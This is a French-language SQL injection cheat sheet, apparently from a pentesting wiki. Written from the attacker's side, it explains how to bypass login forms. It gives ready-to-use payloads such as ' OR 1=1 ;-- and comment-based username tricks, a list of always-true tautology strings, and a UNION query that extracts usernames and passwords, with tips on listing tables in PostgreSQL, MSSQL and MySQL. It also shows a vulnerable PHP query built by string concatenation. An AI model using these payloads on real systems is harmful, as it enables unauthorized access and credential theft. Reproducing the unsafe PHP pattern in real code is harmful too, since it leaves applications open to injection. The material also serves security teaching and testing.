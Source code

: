 # Injection de commandes SQL

## 1. Se connecter sans identifiant et sans mot de passe

On tape dans l'identifiant : 

```sql
' OR 1=1 ;--
```

Et on n'oublie pas de mettre un mot de passe aléatoire, au cas ou le système vérifie si un mot de passe est rentré.

## 2. Se connecter avec seulement l'identifiant

#### 1. Par le nom d'utilisateur

Dans un premier temps, on peut s'attaquer au _**nom d'utilisateur**_. Prenons par exemple, une requête de connexion au serveur de ce type :

```sql
select * from user_table
where username = 'anto'
and password = 'mystrongpassword';
```

En supposant que le mot de passe ne soit pas haché, la requête PHP ressemblerait à ceci :

```php
// Connexion à la database
$db_query = "select * from user_table where
username = '".$user."'
AND password = '".$password."';";
// Execution de la requête
```

Ainsi, en entrant dans la section du nom d'utilisateur « **anto’;--** » la requête SQL devient :

```sql
select * from user_table where
username = 'anto';-- and password = ''
```

Or, le double tiret permet de commenter du code en SQL, ce qui revient donc à contourner le mot de passe, et à pouvoir se connecter en ayant uniquement besoin du nom d'utilisateur.



#### 2. Par le mot de passe, par attaque booléenne 

Une deuxième possibilité à tester, est l'injection SQL booléenne. Par exemple, en ayant une requête SQL de ce type :

```sql
select * from user_table where
username = 'anto' and
password = 'password';
```

On peut très bien contourner le mot de passe, en entrant dans la section du mot de passe la commande « **'or 1=1;--** » qui transforme la requête comme ceci :

```sql
select * from user_table where
username = 'anto' and
password = '' or 1=1;--;
```

Et qui de ce fait, rend totalement inutile la condition password='anto' vu que la condition 1=1 sera toujours vraie.

Il existe une infinité de conditions triviales, par exemple :

```sql
'='
'OR 1=1
'OR a=a
'OR'
'OR''='
'OR"="
'OR'="
'OR '="
'OR "='
'OR ''='
'OR '=''
'OR "=''
'OR ''="
```



{% hint style="warning" %}
Malheureusement pour nous, ces genres de vulnérabilités sont extrêmement rares, mais valent le coup d'être essayés.
{% endhint %}

## 3. Par méthode UNION

#### Les objectifs de cette techniques sont :

* Trouver le nombre et le type de chaque colonne retournée par la requête
* Trouver le nom d'une colonne et d'une table comportant des choses intéressantes \(Login, Password, etc.\)
* Utiliser une union pour récupérer les informations

```sql
select title, link from post_table
where id < 10
union
select username, password
from user_table; --;
```

{% hint style="info" %}
Pour une base PostgreSQL, la colonne tablename de la table **pg\_tables** va permettre de récupérer le nom des tables, pour MSSQL, select name from **SysObjects**, pour MySQL, select table\_name from **information\_schema.tables .**
{% endhint %}



